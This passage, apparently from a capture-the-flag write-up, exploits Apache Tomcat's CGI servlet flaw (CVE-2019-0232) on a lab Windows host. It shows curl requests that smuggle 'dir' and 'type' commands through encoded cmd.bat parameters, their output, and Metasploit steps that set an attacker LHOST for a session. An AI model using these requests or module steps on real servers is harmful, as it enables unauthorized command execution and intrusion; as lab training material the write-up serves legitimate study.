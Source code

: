 The server responded with a directory listing of the CGI directory:

```bash
 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi
 09/29/2021  09:26 AM    <DIR>          .
 09/29/2021  09:26 AM    <DIR>          ..
 09/01/2021  07:58 AM    <DIR>          %SystemDrive%
 09/29/2021  09:26 AM            73,802 bHPVV.exe
 08/31/2021  01:55 PM                48 cmd.bat

...
```

This confirmed command execution via the CGI servlet.

When reading files, URL-encoding and how spaces are encoded matters. I observed the server handled `+` for spaces better than `%20` for these parameter encodings. Example working directory listing of Administrator Desktop:

```bash
[★]$ curl "http://<target_ip>:8080/cgi/cmd.bat?&dir+C%3A%5CUsers%5CAdministrator%5CDesktop"

Directory of C:\Users\Administrator\Desktop

09/30/2021  10:41 AM    <DIR>          .
09/30/2021  10:41 AM    <DIR>          ..
09/29/2021  09:22 AM                32 flag.txt
               1 File(s)             32 bytes
               2 Dir(s)  28,276,125,696 bytes free
```

I also tested executing binary output (e.g., `whoami.exe`) to confirm the `type` command works; `curl` warns for binary output but the call still demonstrated execution:

```bash
[★]$ curl "http://<target_ip>:8080/cgi/cmd.bat?&type+C%3A%5Cwindows%5Csystem32%5Cwhoami.exe"

Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

However, attempts to type the `flag.txt` via direct `curl` requests were inconsistent — likely due to how the CGI parameter parsing handled command arguments and output buffering — so I switched to a more reliable exploitation method (**Metasploit**) to get an interactive session and read the file directly.


### Exploitation — Gaining a Foothold

Metasploit module: `exploit/windows/http/tomcat_cgi_cmdlineargs` (CVE-2019-0232)

Metasploit usage (selected steps):

```bash
msfconsole -q
search Tomcat cgi
use exploit/windows/http/tomcat_cgi_cmdlineargs
set RHOSTS <target_ip>
set LHOST <attacker_ip>
set TARGETURI /cgi/cmd.bat
set AutoCheck false
run
```
